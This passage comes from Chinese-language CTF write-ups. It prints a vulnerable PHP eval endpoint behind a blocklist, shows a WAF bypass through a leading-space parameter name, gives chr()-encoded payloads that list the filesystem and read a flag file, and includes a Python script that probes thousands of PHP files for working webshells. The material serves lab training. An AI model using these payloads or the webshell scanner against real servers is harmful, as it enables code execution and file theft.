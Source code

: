 可以发现有 `calc.php`，访问直接得到源码：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = ['', '\t', '\r', '\n','\'','"','`','\[','\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/'. $blackitem .'/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo'.$str.';');
}
?>
```

绕过 php 黑名单本身不难，但是 waf 中会先进行一次 `encodeURIComponent`。这里用到的绕过 waf 技巧就是用 ` num` 参数而非 `num` 参数，这样做可以成功的原因在于 php 会尝试将传入的参数变为合法变量名，即 strip 掉首尾空格、加下划线等等，因此 ` num` 就会被处理成 `num`，成功进入 `else` 逻辑，剩下的就是绕黑名单了：

```
/calc.php?%20num=var_dump(scandir(chr(47)))
```

可以发现 flag 文件 `/f1agg`，同样方法读出即可：

```
/calc.php?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

## \[强网杯 2019\] 高明的黑客

提供了 `www.tar.gz`，里面有 3000 + 个 php 文件，都含有类似一句话的部分，但是大多不能用。需要写脚本找到能用的一句话木马：

```py
import os
import re
import requests

filenames = os.listdir('/var/www/html/src')
pattern = re.compile(r"\$_[GEPOST]{3,4}\[.*\]")

for name in filenames:
    print(name)
    with open('/var/www/html/src/'+name,'r') as f:
        data = f.read()
    result = list(set(pattern.findall(data)))

    for ret in result:
        try:
            command = 'uname'
            flag = 'Linux'
            if 'GET' in ret:
                passwd = re.findall(r"'(.*)'",ret)[0]
                r = requests.get(url='http://localhost/'+ name +'?'+ passwd +'='+ command)
                if flag in r.text:
                    print('GET /{}?{}=cat /flag'.format(name,passwd))
                    break
            elif 'POST' in ret:
                passwd = re.findall(r"'(.*)'",ret)[0]
                r = requests.post(url='http://localhost/'+ name,data={passwd:command})
                if flag in r.text:
                    print('POST /{}?{}=cat /flag'.format(name,passwd))
                    break
```